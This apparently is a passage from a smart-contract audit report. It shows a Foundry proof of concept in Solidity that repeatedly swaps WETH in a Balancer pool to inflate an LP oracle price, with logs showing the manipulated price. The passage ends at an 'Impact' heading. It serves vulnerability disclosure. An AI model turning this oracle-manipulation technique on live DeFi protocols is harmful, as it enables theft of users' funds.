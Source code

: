 ```solidity
    // Swap 100_000 ETH on pool
    uint amount = 1e5*1e18;
    vm.deal(address(this), amount);
    IWETH9(address(tokens[1])).deposit{value:1e5*1e18}();
    IWETH9(address(tokens[1])).approve(address(balancer_vault), amount);
    // 1. Swap WETH for UNI
    FundManagement memory funds = FundManagement(
        {
            sender: address(this),
            fromInternalBalance: false,
            recipient: payable(address(this)),
            toInternalBalance: false
        }
    );
    bytes memory userData;
    SingleSwap memory singleSwap = SingleSwap(
        {
            poolId: pool_id,
            kind: SwapKind(0),
            assetIn: address(tokens[1]),
            assetOut: address(tokens[0]),
            amount: amount,
            userData: userData
        }
    );
    while (true) { // do multiple swaps because balancer limit swap amount to 30% of reserves
        (, balances, ) = balancer_vault.getPoolTokens(pool_id);
        amount = balances[1]*3/10; // maximum that can be swapped due to balancer limits
        if (IWETH9(address(tokens[1])).balanceOf(address(this)) < amount) break;
        singleSwap.amount = amount;
        IBalancerVault(address(balancer_vault)).swap(singleSwap,
                        funds,
                        0,
                        block.timestamp + 1);
    }
    LPoraclePrice = BalancerOracle.get_lp_price(pool, prices, 0, true);
    console.log("LP oracle price after manipulation:", LPoraclePrice);
}
```

which will print:

```
Logs:
  Mainnet block: 17251326
  LP expected price: 9752931061
  LP oracle price before manipulation: 9752695445
  LP oracle price after manipulation: 91173235346
```

The full PoC is available here: https://gist.github.com/bahurum/67ef6ea9ea820108844b320c977a3c34

#### Impact
